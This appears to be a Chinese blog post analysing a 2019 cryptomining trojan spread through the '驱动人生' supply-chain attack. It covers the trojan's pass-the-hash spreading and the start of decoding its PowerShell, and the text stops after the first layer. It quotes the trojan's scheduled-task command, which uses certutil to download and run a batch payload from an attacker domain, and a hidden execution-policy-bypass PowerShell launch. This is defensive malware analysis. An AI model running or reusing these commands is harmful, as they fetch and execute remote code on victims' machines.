 ```yaml
---
categories: 应急响应
date: "2019-02-23T00:00:00Z"
description: 360安全大脑监测到通过”驱动人生”供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新……
title: 驱动人生供应链木马攻击2019.1.30变种木马分析
url: /archivers/2019-02-23/1
---
```


360安全大脑监测到通过”驱动人生”供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新……


## 0x00 事件背景

360安全大脑监测到通过"驱动人生"供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新。此次更新中，木马在此前抓取系统帐户密码的基础上增加了抓取密码hash值的功能，并试图通过pass the hash攻击进行横向渗透，使得该木马的传播能力进一步加强，即使是有高强度口令的机器也有可能被攻陷。

pass the hash也称作哈希传递攻击，攻击者可以直接通过密码的哈希值访问远程主机或服务，而不用提供明文密码。攻击者使用pass the hash技术尝试在系统登录密码非弱口令并且无法抓取登录密码的情况下进行横向攻击，增加攻击成功率。

## 0x01 分析研讨

由于木马是样本都是不落地的方式，核心技术是通过定时计划任务执行powershell代码达到持续控制的目的，因此最先分析powershell代码，了解它做了哪些动作，指定查杀手段。



PS:样本代码过长，遂使用图片截图

## 0x02 分析过程

### 解密第一层

病毒样本：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x00.png)

第一个动作，创建一个名为`Certificate`的任务计划，在七点开始，每隔一小时执行一次以下命令：

```

cmd.exe /c (cd %temp%&certutil -urlcache -split -f http://cert.beahh.com/cert.php?ver1=%COMPUTERNAME% v.dat>nul&expand -r v.dat>nul&v.bat>nul&del v.dat v.bat>nul)

```

由于目前`cert.beahh.com`已经无法访问，所以进行下一个powershell分析环节。

首先，`powershell -nop -w hidden -ep bypass -e `后接着就是base64编码的powershell代码，并且以Bypass作为当前执行策略。

Windows中的powershell执行策略：

```
PS C:\Users\Rvn0xsy> Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine          Bypass
```
